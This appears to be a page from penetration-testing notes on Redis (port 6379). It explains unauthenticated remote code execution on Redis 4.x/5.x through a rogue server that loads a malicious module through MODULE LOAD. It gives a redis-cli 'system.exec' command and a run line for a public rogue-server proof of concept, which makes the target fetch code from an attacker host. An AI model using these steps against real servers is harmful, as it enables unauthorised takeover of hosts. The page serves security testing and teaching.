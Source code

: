 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# 6379 - Redis

Redis is an open-source, in-memory key-value data store used for high-performance caching, message brokering, and real-time analytics. It supports a variety of data structures like strings, hashes, lists, sets, and sorted sets, and operates entirely in memory for speed, with optional persistence to disk. By default, Redis listens on TCP port `6379` and **has no authentication or encryption unless explicitly configured**, which often makes it a target during red team operations.

## Unauthenticated Root RCE

Redis `4.x` and `5.x` instances are vulnerable to **unauthenticated RCE** by abusing the `MODULE LOAD` feature to load a malicious `.so` file. The attack works by tricking the target Redis server into connecting to an attacker-controlled rogue Redis instance, which delivers a crafted shared object module.

The `.so` file is a compiled Redis module written in C, designed to extend Redis with new functionality. In this case, the module adds a backdoor command—such as `system.exec`—that enables direct shell command execution on the host. This functionality is normally intended for legitimate extensions but becomes dangerous when Redis is exposed or misconfigured.

The attacker compiles the malicious module (e.g., using the `RedisModules-ExecuteCommand` project) and hosts it via the rogue server. The target Redis instance is then instructed to connect back and load the module. Once loaded, commands like the following can be used:

```bash
redis-cli -h <target> -p <port> system.exec "id"
```

This leads to RCE under the privileges of the Redis process. A working [PoC](https://github.com/K0rz3n/redis-rogue-server-1) is publicly available.

{% code overflow="wrap" %}
```bash
python3 redis-rogue-server.py --rhost <target-IP> --rport <target-port> --lhost <attacking-IP> --lport <attacking-port>
```
{% endcode %}
